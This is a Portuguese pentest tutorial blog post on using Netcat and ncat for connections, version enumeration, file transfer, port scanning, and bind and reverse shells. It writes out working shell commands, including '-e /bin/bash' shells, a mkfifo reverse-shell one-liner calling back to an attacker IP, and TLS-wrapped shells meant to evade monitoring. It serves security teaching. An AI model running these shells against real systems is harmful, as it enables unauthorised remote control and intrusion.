

Midnight Hackings apoia o fim da escala 6x1.
Todos nós trabalhadores devemos ter direito à vida além do trabalho! Trabalhadores unidos mudam o mundo.
Pentest 0x00 - Netcat: O canivete suíço dos hackers
Introdução
Nessa série de postagens, iremos descrever ferramentas essenciais que serão úteis para diversos cenários de pentest.
Essas ferramentas servirão principalmente para execução de comandos, estabelecimento de shells, envio de arquivos e análise de pacotes de redes.
Hoje trataremos no Netcat, ou nc. O IP utilizado pode sofrer alterações de exemplo para exemplo, logo é importante que o leitor entenda as diferenças entre o IP da vítima e do atacante ao longo do texto.
nc
Netcat, ou nc, é um software que permite interação com serviços disponíveis em uma rede, independente de usarem UDP ou TCP na camada de transporte. Em cenários de reconhecimento e enumeração, ele pode ser útil para realizar varredura por serviços, hosts e buscar por versões de aplicações que estão expostas na internet ou intranet.
É um software que já vem por padrão em várias distribuições linux, tornando-o uma ferramenta de interesse por invasores.
Exemplo 1 - Conectando-se a TCP
O uso mais básico do netcat é descrito abaixo. Ele irá tentar fechar uma conexão TCP no host/porta especificado.
nc -v <ip ou hostname> <porta>
O argumento -v irá trazer informações úteis sobre a conexão. Caso ela tenha sucesso, como em nc -v google.com 80, teremos o seguinte resultado:

Porém, caso a porta especificada não esteja aberta no alvo, teremos a seguinte saída:

Isso já nos dá a possibilidade de produzir um scanner de portas em shell script para identificar portas abertas em um host especificado.
Quando conectado com sucesso ao socket (tupla ip:porta), é possível enviar e receber bytes pelos descritores de entrada padrão e saída/saída de erro padrão (stdin/stdout), respectivamente.
Nos próximos exemplos exploraremos a conexão UDP e os potenciais usos de envio e recebimento de bytes.
Exemplo 2 - Conectando-se a UDP
No exemplo passado, realizamos a conexão utilizando TCP como protocolo de camada de transporte. Existem protocolos da camada de aplicação, como o DNS, que não utilizam TCP e sim UDP.
Para se conectar a essas aplicações usando o netcat, passaremos a flag -u, de UDP:
nc -v -u <ip ou hostname> <porta>
Um exemplo prático é a comunicação com o DNS do Google:
Exemplo 3 - Conectando-se ao HTTP & enumeração de versão
Para comunicação HTTP, podemos realizar requisições manualmente através do netcat:
Nesse caso, segundo as especificações do HTTP, na primeira linha de requisição temos que passar o método, o recurso a ser acesso e qual versão do HTTP deve ser utilizada nessa comunicação. Isso está descrito na RFC do HTTP.
Note que, caso você conheça o formato das requisições a serem realizadas para determinado protocolo, é possível utilizar o netcat para acessá-lo e utilizá-lo.
NOTA: Para HTTP, precisamos dar dois “enter” (tecnicamente, dois caracteres carriage return e new line) para que o servidor retorne as informações para o cliente (netcat). Isso é necessário pois podemos enviar headers após a solicitação de determinado recurso.
Em determinados servidores de hospedagem HTTP, um mesmo IP pode estar sendo utilizado para diversos domínios/aplicações. Nesses casos, torna-se necessário enviar o header Host: dominio.com especificando qual aplicação queremos acessar.

Note que nas imagens anteriores, a versão do servidor foi retornada na resposta. Isso vale para outros servidores e protocolos, e se chama enumeração de versão, algo vital em um pentest, pois a partir disso podemos buscar por vulnerabilidades ou possíveis fragilidades naquela versão específica do servidor.
Exemplo 4 - Fazendo um mini-chat
Uma das funções mais úteis do netcat é a possibilidade de utilizá-lo também como servidor. Para isso, iremos especificar três flags nos argumentos de linha de comando:
-n # não resolve hostnames, ou seja, utiliza apenas os IPs encontrados nas interfaces de rede da máquina
-l # de "listening", ou seja, informa ao netcat que desejamos ouvir conexões (modo servidor)
-v # modo verbose
-p # define a porta que o netcat deve realizar um "bind"
O comando final ficará assim:
nc -nlvp 1337

Acima especificamos a porta TCP 1337 como “bind” do nosso servidor. Toda comunicação para o servidor do netcat deverá acontecer por ela.
Vamos, agora, conectar um outro terminal (ou outro host) e executar o netcat como cliente:

Logo em seguida, no servidor nos é informado que há uma conexão estabelecida com nossa sessão:

A partir de agora, é possível enviar e receber dados de qualquer um dos lados:
Envio de mensagem pelo servidor:

Recebimento da mensagem pelo cliente:

Exemplo 5 - Enviando e recebendo arquivos
Como estamos utilizando uma shell para invocar o netcat, podemos redirecionar a entrada e saída padrão para que sejam arquivos. Dessa forma, podemos utilizar a ferramenta para envio de arquivos para um host remoto.
Por exemplo, para repassarmos um arquivo malicious.exe para uma vítima, faríamos:
Vítima:
nc -lvp 1337 > malicious.exe
Atacante:
nc ip_da_vitima 1337 < malicious.exe
Note que a vítima está utilizando o netcat como servidor e o atacante como cliente, mas também é possível realizar o processo contrário, como nos comandos a seguir:
Atacante:
nc -lvp 1337 < malicious.exe
Vítima:
nc ip_do_atacante 1337 > malicious.exe
Em ambos os casos, a vítima irá redirecionar a saída padrão (>) para um arquivo chamado malicious.exe. Ou seja, todos os bytes que chegarem pelo netcat irão compor o arquivo final.
Quando o atacante redireciona a sua entrada padrão (<) para o arquivo malicious.exe, o netcat irá enviar todos os bytes desse arquivo para a vítima.
Esse procedimento pode levar um tempo e o netcat não mostra informações da completude do envio, logo devemos esperar um momento até que todos os bytes sejam enviados. Como explicaremos em outras postagens, uma shell reversa e exploits, de uma forma geral, são arquivos pequenos, que não vão demorar para serem transferidos.
Nas imagens a seguir, foi realizado o primeiro procedimento descrito nessa seção. Após o envio, podemos confirmar que o arquivo recebido pela vítima realmente é um binário PE (EXE) com o comando file:
Exemplo 6 - Bind shell
Uma bind shell é um dos tipos mais básicos de malware para controle de um alvo. O procedimento é o seguinte:
- O atacante envia um arquivo malicioso para que a vítima execute. Esse malware irá habilitar um pequeno servidor (“abrir uma porta”) no computador do alvo.
- O atacante irá, então, se conectar a esse pequeno servidor, utilizando o IP do alvo e a porta escolhida previamente.
- Ao estabelcer a comunicação, o invasor poderá enviar comandos (como comandos do cmd, powershell ou bash) para que o alvo execute e envie a resposta.
Isso garante o controle remoto de um computador.
Para que não necessitemos (por hora) codificar um malware desse tipo, o netcat já consegue nos prover o necessário para realizar esse procedimento, ao passarmos o argumento -e para a vítima.
-e, --exec <command> Executes the given command
Note que nas versões mais recentes do Ubuntu, você deve baixar o
ncat, versão do netcat distribuído pela nmap.org. Para que os comandos abaixo funcionem, executem antesalias nc=ncat.
Além da opção -e, temos que repassar qual será o binário responsável por realizar o processamento e interpretação dos comandos. Em windows, podemos utilizar -e cmd.exe e em Linux -e /bin/bash.
O comando de uma vítima Linux ficará assim:
nc -nlvp 1337 -e /bin/bash
Ao conectarmos com nc ip_da_vitima 1337 e digitarmos algum comando reconhecido pelo /bin/bash, teremos o retorno:
Isso nos permite executar código arbitrário, enviar arquivos, entre outras possibilidades. Supondo que a vítima seja um servidor que esteja exposto na internet, é possível ter acesso à rede interna a partir do conceito aprendido nessa seção.
Exemplo 7 - Reverse shell
O conceito de shell reversa surgiu devido a bloqueios padrão de ferramentas de segurança a nível de rede, como Firewalls, que geralmente bloqueiam requisições inbound para computadores da rede interna.
Isso é possível pois geralmente quem faz as requisições são os computadores da rede interna para um servidor externo (como o acesso a um webserver) e não o contrário.
Além disso, uma bind shell pode gerar um alerta suspeito no alvo devido ao processo de binding com uma porta. Um funcionário comum de escritório não necessita abrir um servidor em uma porta não-padrão no dia-a-dia.
Vamos entender o fluxo e as vantagens de se utilizar uma shell reversa:
- O atacante irá subir um pequeno servidor na sua máquina
- Ele enviará um pequeno malware para a vítima, que quando clicado irá tentar se comunicar com o servidor do atacante
- O atacante irá enviar comandos para a vítima, que irá executar e retornar seu output
Por vezes, esse tipo de servidor é chamado de servidor C2, C&C ou command-and-control
Note que a diferença principal de uma shell reversa para uma shell bind é que o servidor estará do lado do atacante, permitindo mascarar o tráfego e evitar criar um servidor na vítima. A execução de comandos se dá da mesma forma que a bind shell.
Os comandos a serem executados para a realização de uma shell reversa via netcat são os seguintes:
Atacante:
nc -nlvp 80
Vítima:
nc ip_do_atacante 80 -e /bin/bash
Lembrando que podemos mudar o interpretador para o cmd.exe ou qualquer outro que exista no ambiente.
Especificamos a porta 80 por uma razão bem importante: geralmente tráfego na porta 80/HTTP é liberado em diversas empresas, e logo não terá restrições de comunicação. Para um cenário simples de monitoramento de rede, é apenas uma conexão de um computador com um site, por exemplo.
Exemplo 8 - Reverse shell (nova forma)
Versões padrão do netcat podem não conter mais a opção -e, que torna o trabalho do pentester um pouco mais complicado.
Contudo, mesmo sem essa opção é possível utilizar a ferramenta para estabelecer uma shell reversa com o alvo. Para isso, utilizaremos parte da linha de comando do Netcat OpenBsd, disponível no github do Payload All The Things.
Atacante:
nc -nlvp 8080
Vítima:
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f
mkfifo /tmp/f: A vítima irá criar um arquivo FIFO (named pipe, uma forma de comunicação interprocessos), em/tmp/f, para recebimento dos comandos do atacante e envio dos outputs.cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f: Essa segunda parte irá esperar e ler os comandos recebidos no named pipe (através docat), passá-los para o processamento da shell/bin/she redirecionar a saída de erro para a saída padrão com2>&1(para que os erros também sejam enviados ao atacante). Por fim, o trechonc attacker_ip 8080 >/tmp/firá fazer o papel de ponte entre o atacante e a vítima, obtendo os comandos e enviando as saídas.
Exemplo de resultado da execução:
Vítima:

Servidor C2:

Exemplo 9 - Modo scan
A fim de detectar serviços em um host, podemos utilizar o argumento -z passando o ip do host a ser escaneado e uma porta ou range de portas.
nc -vz ip_host range_ports
Onde range_ports pode ser uma única porta ou um intervalo fechado no formato porta_min-porta_max.
Um exemplo da saída desse comando:

Nessa saída, podemos ver que do range de portas 75 a 85 do host, apenas a porta 80 estava aberta.
ncat
O ncat é a versão do netcat com suporte ao SSL/TLS. Essa vantagem permite a enumeração de alvos que utilizem esses protocolos, como o HTTPS, e ofuscação de comandos enviados para o destino em uma shell caso o alvo não realize inspeção TLS.
Para instalá-lo em versões atuais do Ubuntu, use
sudo apt update -y && sudo apt install ncat -y
Por exemplo, se quisermos acessar o host google.com na porta 443 usando o nc, ao enviarmos qualquer requisição, a conexão é fechada:
Já quando usamos o ncat, com o argumento --ssl, podemos digitar nossa requisição sem erros:
Importante notar que a maioria (senão todos) os comandos do netcat são válidos no ncat.
Logo, podemos criar um servidor que utiliza SSL e realizar um procedimento de shell reversa com uma vítima. Em cenários em que não há inspeção de tráfego SSL/TLS, esse é um método que pode mascarar os comandos que estão sendo enviados, pois eles estarão sendo enviados criptografados.
Atacante:
ncat --ssl -nlvp 1337
Vítima:
ncat --ssl 127.0.0.1 1337 -e /bin/bash
Abaixo, o resultado do teste: